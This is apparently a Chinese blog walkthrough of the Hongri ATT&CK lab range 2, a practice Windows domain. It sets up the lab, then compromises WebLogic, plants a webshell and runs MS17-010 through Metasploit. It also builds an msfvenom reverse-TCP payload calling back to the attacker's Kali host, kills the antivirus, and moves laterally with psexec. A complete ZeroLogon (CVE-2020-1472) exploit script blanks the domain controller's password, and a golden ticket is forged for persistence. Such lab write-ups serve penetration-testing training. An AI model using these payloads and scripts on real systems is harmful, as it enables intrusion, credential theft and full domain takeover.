






# 网络配置

配置VMnet2网卡的子网为10.10.10.0/24

PC：nat+vmnet2

web：nat+vmnet2

DC：仅vmnet2


三台主机的密码均为1qaz@WSX,其中WEB在登录的时候需要切换用户de1ay登录

DC配置：
登录即可，IP：10.10.10.10


web配置：
恢复快照v1.3，报错就放弃再开启，用本地用户.\de1ay / 1qaz@WSX登录改密码改成Molu123，改完后注销，然后登录mssql用户
弹出某数字卫士就用本地管理员 .\de1ay / Molu123登录
更改网卡1配置，改为自动获取ip，获取到IP：192.168.61.133

PC配置：
登录后弹出某数字卫士，用administrator / 1qaz@WSX登录

更改网卡1配置，改为自动获取ip，拿到IP：192.168.61.134

最终网络配置如下：

| 设备   | IP 地址                                   |
| ---- | --------------------------------------- |
| web  | 10.10.10.80 (NAT), 192.168.61.133 (仅主机) |
| PC   | 10.10.10.201(NAT)，192.168.61.134(仅主机)   |
| DC   | 10.10.10.10(NAT)                        |
| kali | 192.168.61.130(NAT)                     |
ping不通正常，有防火墙

# 初步渗透
拿到IP：192.168.61.133
nmap抽风了扫不动，这里用Rscan扫描全端口
```bash
Rscan_win64.exe scan -i 192.168.61.133 -p 1-65535 --noping

+------------------------------------------------------------+
[*] 共计存活数:1
[*] 开始扫描端口:65535 最大并发数:150 共计尝试:65535 端口连接超时:5
+------------------------------------------------------------+
| ✓ | 192.168.61.133       | 25    |SMTP
| ✓ | 192.168.61.133       | 110   |POP3
| ✓ | 192.168.61.133       | 143   |IMAP
| ✓ | 192.168.61.133       | 135   |RPC服务
| ✓ | 192.168.61.133       | 139   |
| ✓ | 192.168.61.133       | 445   |SMB
| ✓ | 192.168.61.133       | 80    |WEB应用| http://192.168.61.133 「200」
| ✓ | 192.168.61.133       | 1433  |数据库|SqlServer
| ✓ | 192.168.61.133       | 3389  |RDP
| ✓ | 192.168.61.133       | 7001  |WEB应用| http://192.168.61.133:7001 「weblogic」 title:「Error 404--Not Found」「404」
| ✓ | 192.168.61.133       | 49152 |
| ✓ | 192.168.61.133       | 49153 |
| ✓ | 192.168.61.133       | 49154 |
| ✓ | 192.168.61.133       | 49156 |
| ✓ | 192.168.61.133       | 49155 |
+---------------------------------------------------------+------------------------+----------+
|                           URL                           |          NAME          |   INFO   |
+---------------------------------------------------------+------------------------+----------+
| http://192.168.61.133:7001/wls-wsat/CoordinatorPortType | weblogic-cve-2019-2725 | 代码执行 |
+---------------------------------------------------------+------------------------+----------+
[*] 存活主机:1 存活端口:15 ssh:0 rdp:1 web:2 数据库:1 弱口令:0 漏洞:1
[*] 结果保存路径：ScanLog\202603291455-RScan.xlsx
[*] 任务结束,耗时: 27m44.2828697s
```
## weblogic上马
goby对这两个web端口扫一下，发现这个weblogic蛮多洞

找个漏洞利用工具直接可以rce

上个哥斯拉的马

查一下进程：
```bash
tasklist /svc

映像名称                       PID 服务                                    ============================================
System Idle Process              0 暂缺
System                           4 暂缺
smss.exe                       256 暂缺
csrss.exe                      340 暂缺
wininit.exe                    392 暂缺
services.exe                   496 暂缺
lsass.exe                      512 Netlogon, SamSs
lsm.exe                        520 暂缺
svchost.exe                    632 DcomLaunch, PlugPlay, Power
vmacthlp.exe                   692 VMware Physical Disk Helper Service
svchost.exe                    724 RpcEptMapper, RpcSs
svchost.exe                    784 Dhcp, eventlog, lmhosts
svchost.exe                    876 AeLookupSvc, Appinfo, BITS, CertPropSvc,
                                   gpsvc, IKEEXT, iphlpsvc, LanmanServer,
                                   ProfSvc, Schedule, SENS, SessionEnv,
                                   ShellHWDetection, Winmgmt, wuauserv
svchost.exe                    956 EventSystem, netprofm, nsi, sppuinotify,
                                   W32Time
svchost.exe                   1000 Netman, TrkWks, UmRdpService, UxSms
ZhuDongFangYu.exe              296 ZhuDongFangYu
svchost.exe                    356 CryptSvc, Dnscache, LanmanWorkstation,
                                   NlaSvc
svchost.exe                   1040 BFE, DPS, MpsSvc
spoolsv.exe                   1176 Spooler
svchost.exe                   1232 AppHostSvc
sqlservr.exe                  1468 MSSQL$SQLEXPRESS
SMSvcHost.exe                 1488 NetPipeActivator, NetTcpActivator,
                                   NetTcpPortSharing
ReportingServicesService.     1616 ReportServer$SQLEXPRESS
sqlwriter.exe                 1832 SQLWriter
VGAuthService.exe             1864 VGAuthService
vmtoolsd.exe                  1900 VMTools
svchost.exe                   1928 W3SVC, WAS
fdlauncher.exe                2056 MSSQLFDLauncher$SQLEXPRESS
svchost.exe                   2116 TermService
WmiPrvSE.exe                  2248 暂缺
svchost.exe                   2260 PolicyAgent
fdhost.exe                    2380 暂缺
conhost.exe                   2392 暂缺
dllhost.exe                   2480 COMSysApp
msdtc.exe                     2592 MSDTC
sppsvc.exe                     612 sppsvc
csrss.exe                     3380 暂缺
winlogon.exe                   456 暂缺
taskhost.exe                  3304 暂缺
dwm.exe                       2908 暂缺
explorer.exe                  3580 暂缺
vmtoolsd.exe                  4068 暂缺
360Tray.exe                   1476 暂缺
cmd.exe                       1088 暂缺
conhost.exe                   3392 暂缺
cmd.exe                       3080 暂缺
conhost.exe                    848 暂缺
java.exe                       476 暂缺
cmd.exe                       2024 暂缺
conhost.exe                   4480 暂缺
tasklist.exe                  5432 暂缺
```
能看到某数字卫士是挂在后台的，必须要想办法干掉杀软才好横向
能读到主机信息：OsInfo : os.name: Windows Server 2008 R2 os.version: 6.1 os.arch: x86，这种老机子可以考虑永恒系列直接打
## msf上线
这里考虑是让msf弹个shell，先做个马
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.61.130 lport=8001 -f exe -o a.exe
```
msf开监听
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
options #设定好相应端口
exploit
```
执行a.exe即上线，上线后注入一个进程
```bash
 run post/windows/manage/migrate
```
上线后`ipconfig`，查到这台机子还连接着一个网段10.10.10.80/24
msf可以传东西：
```bash
meterpreter > upload /home/molu/桌面/tools/fscan/fscan.exe C:/fscan.exe
```
扫一下10.10.10.80/24段
```bash
fscan.exe -h 10.10.10.80/24

┌──────────────────────────────────────────────┐
│    ___                              _        │
│   / _ \     ___  ___ _ __ __ _  ___| | __    │
│  / /_\/____/ __|/ __| '__/ _` |/ __| |/ /    │
│ / /_\\_____\__ \ (__| | | (_| | (__|   <     │
│ \____/     |___/\___|_|  \__,_|\___|_|\_\    │
└──────────────────────────────────────────────┘
      Fscan Version: 2.0.1

[1.7s]     已选择服务扫描模式
[1.7s]     开始信息扫描
[1.7s]     CIDR范围: 10.10.10.0-10.10.10.255
[1.7s]     generate_ip_range_full
[1.7s]     解析CIDR 10.10.10.80/24 -> IP范围 10.10.10.0-10.10.10.255
[1.7s]     最终有效主机数量: 256
[1.7s]     开始主机扫描
[1.7s]     使用服务插件: activemq, cassandra, elasticsearch, findnet, ftp, imap, kafka, ldap, memcached, modbus, mongodb, ms17010, mssql, mysql, neo4j, netbios, oracle, pop3, postgres, rabbitmq, rdp, redis, rsync, smb, smb2, smbghost, smtp, snmp, ssh, telnet, vnc, webpoc, webtitle
[1.7s] [*] 目标 10.10.10.1      存活 (ICMP)
[1.7s] [*] 目标 10.10.10.10     存活 (ICMP)
[4.5s] [*] 目标 10.10.10.80     存活 (ICMP)
[7.5s]     存活主机数量: 3
[7.5s]     有效端口数量: 233
[7.6s] [*] 端口开放 10.10.10.80:7001
[7.7s] [*] 端口开放 10.10.10.80:1433
[7.7s] [*] 端口开放 10.10.10.1:445
[7.7s] [*] 端口开放 10.10.10.1:143
[7.7s] [*] 端口开放 10.10.10.1:139
[7.7s] [*] 端口开放 10.10.10.1:135
[7.7s] [*] 端口开放 10.10.10.1:110
[7.7s] [*] 端口开放 10.10.10.80:445
[7.7s] [*] 端口开放 10.10.10.80:139
[7.7s] [*] 端口开放 10.10.10.80:135
[7.7s] [*] 端口开放 10.10.10.80:80
[7.7s] [*] 端口开放 10.10.10.10:143
[7.7s] [*] 端口开放 10.10.10.10:110
[10.7s]     扫描完成, 发现 13 个开放端口
[10.7s]     存活端口数量: 13
[10.7s]     开始漏洞扫描
[10.7s] [*] NetInfo 扫描结果
目标主机: 10.10.10.80
主机名: WEB
发现的网络接口:
   IPv4地址:
      └─ 10.10.10.80
[10.8s]     POC加载完成: 总共387个，成功387个，失败0个
[10.8s] [+] 发现漏洞 10.10.10.80 [Windows Server 2008 R2 Standard 7601 Service Pack 1] MS17-010
[10.8s] [*] NetInfo 扫描结果
目标主机: 10.10.10.1
主机名: LAPTOP-CANKEPOL
发现的网络接口:
   IPv4地址:
      └─ 192.168.52.1
      └─ 192.168.61.1
      └─ 10.230.16.242
      └─ 10.10.10.1
[10.8s] [+] NetBios 10.10.10.80     WEB.de1ay.com                       Windows Server 2008 R2 Standard 7601 Service Pack 1
[12.2s] [*] 网站标题 http://10.10.10.80:7001   状态码:404 长度:1164   标题:Error 404--Not Found
[12.2s] [*] 发现指纹 目标: http://10.10.10.80:7001   指纹: [weblogic]
[13.3s] [*] 网站标题 http://10.10.10.80        状态码:200 长度:0      标题:无标题
[3m10s]     扫描已完成: 21/21
```
可以发现MS17-010
开启msf的路由转发，目标是让msf能够访问内网的10.10.10.0/24段
```bash
run autoroute -s 10.10.10.0/24
route add 10.10.10.0 255.255.255.0 2# 2是sessionid
route print # 可以查路由表
```
打永恒之蓝
```bash
search ms17-010
use 0
set RHOSTS 10.10.10.80
set LHOST 192.168.61.130
set LPORT 4444
exploit
```
打完永恒之蓝就是SYSTEM了
```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
## 关掉杀软
cs生成一个beacon.exe，然后通过哥斯拉传上去，然后用msf的shell去执行这个exe，就能拿到SYSTEM的权限的cs
```bash
cd C:/
execute -f beacon.exe -i
```
抓一下明文密码

拿到密码，这台机子开了3389，我们连上rdp，然后直接退掉杀软，顺手关掉防火墙


# 内网横向
查下域，存在域环境
```bash
shell net config Workstation

工作站域                     DE1AY
工作站域 DNS 名称            de1ay.com
登录域                       WEB
```
查看域控
```bash
shell net group "domain controllers" /domain
```
做信息收集能找到后面的两个ip：10.10.10.10和10.10.10.201，都是开放了445端口的，我这里不清楚是VM的配置还是什么原因，杀掉杀软之后我的入口机连不上域了😨，cs执行命令也是出现错误，故而下面的没法进行了，以下看了一下网上其他师傅的wp，记录一番：
## 利用psexec横向移动
> 原文：[红日ATT&CK系列靶场（二） - hypnotic的博客](https://hypnoticp.github.io/CTF/HTB/%E7%BA%A2%E6%97%A5%E9%9D%B6%E5%9C%BA2/index.html)
> SMB Beacon使用命名管道通过父级Beacon进行通讯，当两个Beacons链接后，子Beacon从父Beacon获取到任务并发送。因为链接的Beacons使用Windows命名管道进行通信，此流量封装在SMB协议中，所以SMB Beacon相对隐蔽，绕防火墙时可能发挥奇效。

类似于红日靶场一，域控这里不出网，所以创建一个SMB监听器，利用psexec横向移动

直接用前面抓取过的账密登录

DC即可上线

## 利用psexec_psh横向移动
跟psexec大差不差，选择已经获得的凭据（明文、散列值、令牌都可以）、回连的listener、进行横向的session，即可上线DC


> 既然大差不差，这俩区别在哪
> 让gpt给我写了下区别：

  psexec

  - 典型做法是把一个可执行文件/服务二进制写到目标主机。
  - 通过远程创建并启动服务来执行 payload。
  - 更像“落地型”执行，磁盘痕迹通常更明显。
  - 对杀软、EDR 来说，服务创建和可执行文件落地都比较显眼。

  psexec_psh

  - 一般不是直接上传 EXE，而是通过 PowerShell 在目标机上拉起 payload。
  - 更像“脚本型”执行，通常落地文件更少，偏内存执行。
  - 依赖目标环境的 PowerShell 可用性和相关策略。
  - 检测面会更偏向 PowerShell 日志、命令行审计、AMSI、脚本行为监控。
> 感觉是一个主要落地，一个不落地

## CVE-2020-1472 拿域控
>**CVE-2020-1472**（ZeroLogon）是微软在 2020 年披露的 **Netlogon 特权提升漏洞**，CVSS 评分 **10.0**，影响多个版本的 Windows Server 域控。攻击者可在无需凭据的情况下，通过 **Netlogon (MS-NRPC)** 协议与域控建立安全通道，并利用 **AES-CFB8 加密缺陷** 将域控计算机账户密码置空，进而获取域管权限。
> **影响版本**包括：
> - Windows Server 2008 R2 SP1（含 Server Core）
> - Windows Server 2012 / 2012 R2（含 Server Core）
> - Windows Server 2016 / 2019（含 Server Core）
> - Windows Server 1903 / 1909 / 2004（Server Core）
>
>**漏洞原理** Netlogon 协议在认证时使用 AES-CFB8 模式加密全零明文会生成全零密文，攻击者可多次尝试强制会话密钥为零，从而绕过身份验证，直接修改域控机器账户密码为空。
>测试存在脚本：
> https://github.com/c3rrberu5/ZeroLogon-to-Shell
```python
#!/usr/bin/env python3

from impacket.dcerpc.v5 import nrpc, epm
from impacket.dcerpc.v5.dtypes import NULL
from impacket.dcerpc.v5 import transport
from impacket import crypto
import os

import hmac, hashlib, struct, sys, socket, time
from binascii import hexlify, unhexlify
from subprocess import check_call


MAX_ATTEMPTS = 2000
def fail(msg):
  print(msg, file=sys.stderr)
  print('This might have been caused by invalid arguments or network issues.', file=sys.stderr)
  sys.exit(2)

def try_zero_authenticate(dc_handle, dc_ip, target_computer):

  binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
  rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
  rpc_con.connect()
  rpc_con.bind(nrpc.MSRPC_UUID_NRPC)

  plaintext = b'\x00' * 8
  ciphertext = b'\x00' * 8

  flags = 0x212fffff

  nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
  try:
    server_auth = nrpc.hNetrServerAuthenticate3(
      rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,
      target_computer + '\x00', ciphertext, flags
    )

    assert server_auth['ErrorCode'] == 0

    newPassRequest = nrpc.NetrServerPasswordSet2()
    newPassRequest['PrimaryName'] = dc_handle + '\x00'
    newPassRequest['AccountName'] = target_computer + '$\x00'
    newPassRequest['SecureChannelType'] = nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel
    auth = nrpc.NETLOGON_AUTHENTICATOR()
    auth['Credential'] = b'\x00' * 8
    auth['Timestamp'] = 0
    newPassRequest['Authenticator'] = auth
    newPassRequest['ComputerName'] = target_computer + '\x00'
    newPassRequest['ClearNewPassword'] =  b'\x00' * 516
    try:
      rpc_con.request(newPassRequest)
      print("\n[+] Password Reset success!")
    except:
      print("\n[-] Password Reset Failed.")
    return rpc_con

  except nrpc.DCERPCSessionError as ex:
    if ex.get_error_code() == 0xc0000022:
      return None
    else:
      fail(f'Unexpected error code from DC: {ex.get_error_code()}.')
  except BaseException as ex:
    fail(f'Unexpected error: {ex}.')


def perform_attack(dc_handle, dc_ip, target_computer):

  print('Performing authentication attempts...')
  rpc_con = None
  for attempt in range(0, MAX_ATTEMPTS):
    rpc_con = try_zero_authenticate(dc_handle, dc_ip, target_computer)

    if not rpc_con:
      print('=', end='', flush=True)
    else:
      break

  if rpc_con:
    print('\nSuccess! DC can be fully compromised by a Zerologon attack.')
    try:
        admin_hash = input("Introduce the Administrator NTLM Hash -> ")
        os.system(f"evil-winrm -u Administrator -H {admin_hash} -i {dc_ip}")
    except:
        print("We can't connect to DC: check the Administrator hash. ")


  else:
    print('\nAttack failed. Target is probably patched.')
    sys.exit(1)


if __name__ == '__main__':
  if not (3 <= len(sys.argv) <= 4):
    print('Usage: zerologon_tester.py <dc-name> <dc-ip>\n')
    print('Tests whether a domain controller is vulnerable to the Zerologon attack. Does not attempt to make any changes.')
    print('Note: dc-name should be the (NetBIOS) computer name of the domain controller.')
    sys.exit(1)
  else:
    [_, dc_name, dc_ip] = sys.argv

    dc_name = dc_name.rstrip('$')
    perform_attack('\\\\' + dc_name, dc_ip, dc_name)
```
>poc:https://github.com/mstxq17/cve-2020-1472

打完之后dc账号的密码就置空了

## 维权-黄金票据

在域控获得KRBTGT账户NTLM密码哈希和SID





### 黄金票据利用

黄金票据是伪造票据授予票据（TGT），也被称为认证票据。TGT仅用于向域控制器上的密钥分配中心（KDC）证明用户已被其他域控制器认证。

### 黄金票据的条件要求

- 域名称
- 域的SID值
- 域的KRBTGT账户NTLM密码哈希
- 伪造用户名

**黄金票据可以在拥有普通域用户权限和KRBTGT账号的哈希的情况下用来获取域管理员权限，上面已经获得域控的 system 权限了，还可以使用黄金票据做权限维持，当域控权限掉后，在通过域内其他任意机器伪造票据重新获取最高权限。**

WEB机 Administrator 权限机器->右键->Access->Golden Ticket





伪造成功。

伪造黄金票据之前：



伪造黄金票据之后：



# 总结
靶机死掉了就很难绷，没玩到黄金票据有点遗憾，只能学学其他师傅的打法了0.o